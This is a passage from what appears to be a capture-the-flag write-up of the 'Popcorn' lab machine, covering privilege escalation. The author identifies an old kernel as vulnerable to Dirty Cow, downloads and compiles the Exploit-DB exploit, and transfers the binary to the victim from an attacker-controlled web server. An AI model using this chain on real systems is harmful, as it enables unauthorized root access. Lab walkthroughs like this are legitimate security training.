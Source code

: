 {% raw %}
```bash
www-data@popcorn:/dev/shm$ uname -a
uname -a
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
```
{% endraw %}

<br />
This version of Linux is vulnerable to Dirty Cow privilege escalation exploit.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/popcorn/dirtycow.png" title="Dirty Cow" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
<a href="https://www.exploit-db.com/exploits/40839">Exploit-DB</a>

<br />
Download the dirty payload.

{% raw %}
```bash
└──╼ [★]$ wget https://www.exploit-db.com/raw/40839 -O dirty.c
--2025-01-17 18:07:07--  https://www.exploit-db.com/raw/40839
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.13
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.13|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5006 (4.9K) [text/plain]
Saving to: ‘dirty.c’

dirty.c                                         100%[=====================================================================================================>]   4.89K  --.-KB/s    in 0s      

2025-01-17 18:07:09 (102 MB/s) - ‘dirty.c’ saved [5006/5006]
```
{% endraw %}

<br />
Compile the exploit.

{% raw %}
```bash
└──╼ [★]$ gcc -pthread dirty.c -o dirty -lcrypt
```
{% endraw %}

<br />
Transfer the compiled exploit to the victim machine.

{% raw %}
```bash
www-data@popcorn:/dev/shm$ wget http://10.10.14.29:8000/dirty
wget http://10.10.14.29:8000/dirty
--2025-01-18 02:10:33--  http://10.10.14.29:8000/dirty
Connecting to 10.10.14.29:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 17512 (17K) [application/octet-stream]
Saving to: `dirty'

100%[======================================>] 17,512      --.-K/s   in 0.1s    

2025-01-18 02:10:33 (179 KB/s) - `dirty' saved [17512/17512]

www-data@popcorn:/dev/shm$ chmod +x dirty
chmod +x dirty
```
{% endraw %}